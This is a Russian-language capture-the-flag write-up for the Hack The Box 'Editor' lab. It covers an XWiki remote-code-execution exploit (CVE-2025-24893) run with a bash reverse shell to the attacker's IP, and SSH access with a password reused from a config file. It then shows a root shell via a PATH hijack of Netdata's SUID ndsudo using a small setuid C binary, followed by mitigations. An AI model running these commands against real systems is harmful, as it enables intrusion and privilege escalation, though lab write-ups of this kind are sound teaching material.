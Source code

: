 # 📝 Write-up: Editor (Hack The Box)

![editor](https://www.hackthebox.com/storage/avatars/7d4a6dfe5b291cbe7b4e13e5f5c4d6c3.png)

**Difficulty:** Easy
**Platform:** Hack The Box
**Target host (lab):** `editor.htb` — `10.10.11.80` (add to `/etc/hosts`)
**Link:** [Editor @ HTB](https://app.hackthebox.com/machines/Editor)

---

## 🎯 Summary

Editor — лёгкая Linux-машина. Ключевые шаги:

* Инициальный доступ через **XWiki RCE** (CVE-2025-24893).
* Горизонтальная эскалация: переиспользование пароля из конфигурации.
* Эскалация до root через уязвимый SUID-бинарь Netdata (CVE-2024-32019) с помощью PATH-hijack.

---

## 📋 Table of Contents

1. [Prerequisites / Notes](#-prerequisites--notes)
2. [Reconnaissance](#-reconnaissance)
3. [Enumeration](#-enumeration)
4. [Exploitation — Initial Foothold (XWiki)](#-exploitation--initial-foothold-xwiki)
5. [Privilege Escalation — User (password reuse)](#-privilege-escalation--user-password-reuse)
6. [Privilege Escalation — Root (Netdata ndsudo)](#-privilege-escalation--root-netdata-ndsudo)
7. [Mitigations & Lessons Learned](#-mitigations--lessons-learned)
8. [Replay / Reproduce checklist](#-replay--reproduce-checklist)
9. [References](#-references)

---

## 🔒 Prerequisites / Notes

* Это write-up для учебной (CTF/lab) среды Hack The Box — **не запускать против продакшн-систем**.
* В моих примерах `editor.htb` резолвится в `10.10.11.80`. Добавьте в `/etc/hosts`:

```bash
# add on атакующей машине
echo "10.10.11.80 editor.htb" | sudo tee -a /etc/hosts
```


---

## 🔍 Reconnaissance

Сначала — полный порт-скан `nmap`:

```bash
nmap -sC -sV -oA nmap/initial 10.10.11.80
```

Пример вывода (сокращённо):

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
3000/tcp open  http    Node.js (Express server)
8080/tcp open  http    XWiki 14.10.5

```

---

## 🕵️ Enumeration

### 🌐 HTTP — порт 80

* Статическая страница с документацией проекта.

### 🌐 HTTP — порт 8000 (XWiki)

* На порту `8000` запущен XWiki 14.10.5 — уязвимая версия.



---

## 🚀 Exploitation — Initial Foothold (CVE-2025-24893, XWiki RCE)

**Цель:** получить обратный шелл из XWiki.

> Подготовьте listener на своей машине:

```bash
# на вашей машине (атакующей)
nc -lvnp 4444
```

**Запуск эксплойта** (пример, используемый эксплоит — [https://github.com/gunzf0x/CVE-2025-24893](https://github.com/gunzf0x/CVE-2025-24893)):

```bash
# на атакующей машине
python3 exploit.py -t http://editor.htb:8080 -c "bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1"
```

**Примечание:** замените `<YOUR_IP>` своим IP; порт `8080` — порт XWiki в моём nmap-скане. Если у вас в nmap указано иначе — используйте реальный порт.


---

## 🔼 Privilege Escalation — User (Password reuse)

После установления точки входа нашли конфигурацию XWiki с учётными данными

**Файл:** `/usr/lib/xwiki/WEB-INF/hibernate.cfg.xml`

```xml
<property name="hibernate.connection.password">theEd1t0rTeam99</property>
```

Эти же креды использовались для пользователя `oliver` по SSH:

```bash
ssh oliver@editor.htb
# Password: theEd1t0rTeam99
```

**User flag:** `bc2341152c638da4a05b91d91c1df26f`



---

## 🚀 Privilege Escalation — Root (CVE-2024-32019, Netdata `ndsudo`)

Netdata поставлялось с SUID-бинарём `ndsudo` в `opt/netdata` — анализ показал, что бинарь вызывает внешние утилиты без надёжного полного пути, что позволяет выполнить PATH-hijacking.

### Почему работает PATH-hijack

SUID-бинарь, запущенный от root, наследует переменные окружения (включая `PATH`) и выполняет дочерние программы без использования абсолютных путей. Если в начале PATH подставить папку с вашим «плохим» бинарём с именем ожидаемой утилиты — root выполнит ваш код.

### Эксплуатация — шаги

1. Создаём простой C-бинарь, поднимающий UID до 0 и открывающий шелл:

```bash
cat > /tmp/nvme-list.c <<'EOF'
#include <stdlib.h>
#include <unistd.h>
int main(){ setuid(0); system("/bin/bash"); return 0; }
EOF

gcc /tmp/nvme-list.c -o /tmp/nvme-list
chmod +x /tmp/nvme-list
```

2. Подставляем `/tmp` в начало PATH и запускаем уязвимый скрипт:

```bash
export PATH=/tmp:$PATH
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

Если бинарь `ndsudo` искал `nvme-list` в PATH и нашёл `/tmp/nvme-list`, он выполнит его с правами root — вы получите root shell.

**Root flag:** `6d4d6c2368c3210994e624647c93119f`


---

## 🛡 Mitigations & Lessons Learned

* **Патчить XWiki** до версии, в которой закрыт CVE-2025-24893. Отключать публичный доступ к административным интерфейсам.
* **Не хранить чувствительные пароли в репозиториях/конфигурациях** в открытом виде; использовать секреты/обёртки.
* **Не оставлять SUID-бинарей без необходимости.** Обеспечивать, чтобы SUID-исполняемые файлы использовали абсолютные пути или очищали PATH.
* **Мониторинг и управление учётными записями** — уникальные пароли для сервисных и пользовательских учёток.

---


---

## 📚 References

* CVE-2025-24893 — XWiki RCE (exploit used: [https://github.com/gunzf0x/CVE-2025-24893](https://github.com/gunzf0x/CVE-2025-24893))
* CVE-2024-32019 — Netdata ndsudo PATH-hijack (description & PoC)

---
